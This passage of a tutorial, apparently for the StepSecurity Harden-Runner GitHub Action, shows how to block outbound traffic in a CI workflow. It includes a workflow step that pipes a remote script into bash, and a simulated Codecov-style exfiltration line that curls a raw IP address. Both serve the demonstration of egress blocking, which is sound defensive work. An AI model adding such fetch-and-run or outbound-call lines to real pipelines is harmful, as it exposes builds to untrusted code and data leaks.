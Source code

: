 <img src="../../images/InsightsLink.png" alt="Link to security insights" width="800">

4. Click on the link. You should see outbound traffic correlated with each step of the workflow. An outbound network policy would be recommended.

5. Update the [ci.yml](../../.github/workflows/ci.yml) workflow with the policy. The first step should now look like this. From now on, outbound traffic will be restricted to only these domains for this workflow.

   ```yaml
   - uses: step-security/harden-runner@v2
     with:
       egress-policy: block
       allowed-endpoints: >
         codecov.io:443
         github.com:443
   ```

   The updated file should look like this:

   ```yaml
   name: Test and coverage

   on: [push, pull_request, workflow_dispatch]

   jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         #Add StepSecurity Harden Runner from here onwards
         - uses: step-security/harden-runner@v2
           with:
             egress-policy: block
             allowed-endpoints: >
               codecov.io:443
               github.com:443
         - uses: actions/checkout@v2
           with:
             fetch-depth: 2
         - uses: actions/setup-go@v2
           with:
             go-version: "1.17"
         - name: Run coverage
           run: go test -race -coverprofile=coverage.txt -covermode=atomic
         - name: Upload coverage to Codecov
           run: |
             bash <(curl -s https://codecov.io/bash)
   ```

6. Simulate an exfiltration attack similar to Codecov. Update the workflow and add the following statement. The bash uploader is no longer vulnerable, but when it was, it would have made an additional outbound call, which is being simulated here.

   ```yaml
   - name: Upload coverage to Codecov
     run: |
       bash <(curl -s https://codecov.io/bash)
       curl -X GET http://104.248.94.23
   ```

